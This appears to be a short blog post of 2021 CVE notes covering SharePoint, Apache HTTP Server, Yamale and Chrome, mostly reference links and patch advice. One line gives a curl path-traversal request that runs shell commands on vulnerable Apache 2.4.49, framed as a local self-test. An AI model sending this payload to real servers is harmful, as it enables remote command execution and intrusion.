 ```yaml
---
layout: "post"
title: "interresting-cves"
date: "2021-10-06 22:37"
---
```

CVE-2021-26420 Microsoft sharepoint  
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26420](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26420)
- [https://nvd.nist.gov/vuln/detail/CVE-2021-26420](https://nvd.nist.gov/vuln/detail/CVE-2021-26420)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26420](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26420)

CVE-2021-41773 Apache HTTP Server verison 2.4.49  
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)

Test if you are affected:
curl --data "echo;id" 'http://127.0.0.1:80/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
Everything else than a 403 error means you may be vulnerable [(hackaday)](https://hackaday.com/2021/10/08/this-week-in-security-apache-nightmare-revil-arrests-and-the-ultimate-rickroll/).

CVE-2021-41524  Apache HTTP Server verison 2.4.49  
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41524](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41524) 

CVE-2021-42013 2.4.50  
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
Update to 2.4.51 as 2.4.50 did not fix the problem

CVE-2021-38305 Yamale (Python YAML schema and validator)  
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38305](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38305)
- [https://github.com/23andMe/Yamale/network/dependents](https://github.com/23andMe/Yamale/network/dependents)

CVE-2021-37975 and CVE-2021-37976 Google Chrome  
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37975](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37975)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37976](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37976)
- [https://chromereleases.googleblog.com/2021/09/stable-channel-update-for-desktop_30.html](https://chromereleases.googleblog.com/2021/09/stable-channel-update-for-desktop_30.html)